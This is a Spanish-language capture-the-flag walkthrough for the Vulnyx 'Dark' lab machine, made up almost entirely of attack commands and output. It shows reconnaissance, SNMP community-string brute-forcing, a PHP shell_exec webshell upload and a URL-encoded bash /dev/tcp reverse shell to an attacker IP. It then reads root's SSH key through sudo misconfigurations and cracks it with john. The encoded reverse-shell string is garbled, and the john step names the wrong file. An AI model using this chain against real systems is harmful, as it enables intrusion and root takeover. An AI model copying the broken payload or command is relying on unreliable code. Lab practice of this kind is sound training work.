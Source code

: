 # Vulnyx-Dark

## Reconocimiento

### Descubrir la IP de la víctima
```bash
arp-scan -I eth0 --localnet
# (IP-victima) 08:00:27:53:f0:2d   PCS Systemtechnik GmbH
```

### Escaneo de puertos
```bash
nmap -p 22,80,8000 -sS -sC -sV -n -Pn (IP-victima) -oN nmap
# 22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1
# 80/tcp   open  http    Apache httpd 2.4.56 (Debian)
# 8000/tcp open  ftp     pyftpdlib 1.5.7
```

### Escaneo UDP
```bash
nmap -sU -p- --min-rate 2000 -sV (IP-victima)
# 161/udp   open   snmp   net-snmp; net-snmp SNMPv3 server
```

## Enumeración SNMP (extraccion clave de comunidad)
```bash
onesixtyone -c /home/kali/wordlists666/common-snmp-community-strings-onesixtyone.txt (IP-victima)
# (IP-victima) [root] Linux dark 5.10.0-23-amd64
```

```bash
snmpwalk -v 2c -c root (IP-victima) | grep usr 
# iso.3.6.1.2.1.25.4.2.1.5.354 = STRING: "-c /usr/bin/python3 -m pyftpdlib -p 8000 -w -d /var/www/html/ -u frank -P my_FTP_is_c00l"
```

## Explotación FTP
```bash
ftp (IP-victima) -p 8000
# usr: frank
# pass: m*_***_**_***l
```

## Subida de Webshell
Subir una webshell PHP (`put webshell.php`) con el siguiente contenido:
```php
<?php
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

## Ejecución de Comandos
Acceder a la webshell desde el navegador:
```bash
http://(IP-victima)/webshell.php?cmd=whoami
# frank
```

## Reverse Shell
Inyectar un reverse shell:
```bash
http://(IP-victima)/webshell.php?cmd=%62%61%73%68%20%2d%63%20%225%62%361%73%68%20%2d%659%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%359%32%2e5%31%363%38%2e%32%30%304%2e%35%2f%34%34%33%20%3033e%26%31%22
```

## Obtener Acceso
```bash
nc -lvnp 443
# Acceso obtenido
```

## Escalada de Privilegios
```bash
script /dev/null -c bash
# (Ctrl + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

## Pivoteo de Usuarios
```bash
sudo -l
# (alan) NOPASSWD: /usr/bin/sh
(podemos tirarnos una bash como el usuario alan)
sudo -u alan /usr/bin/sh
whoami
# alan
```

## Escalada de Privilegios a Root
```bash
sudo -l
# (root) NOPASSWD: /usr/bin/most
(Al ejecutarlo vemos que podemos leer archivos como root.)
sudo /usr/bin/most /root/.ssh/id_rsa > /tmp/id_rsa.txt
cat /tmp/id_rsa.txt
# Contenido de id_rsa de root
```

## Acceso SSH como Root
```bash
nano id_rsa
#pegamos contenido de id_rsa root
ssh2john id_rsa > hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa

ssh -i id_rsa root@(IP-victima)
# Contraseña: rootbeer
# Acceso concedido como root
```

Has logrado explotar el sistema y obtener acceso como root.

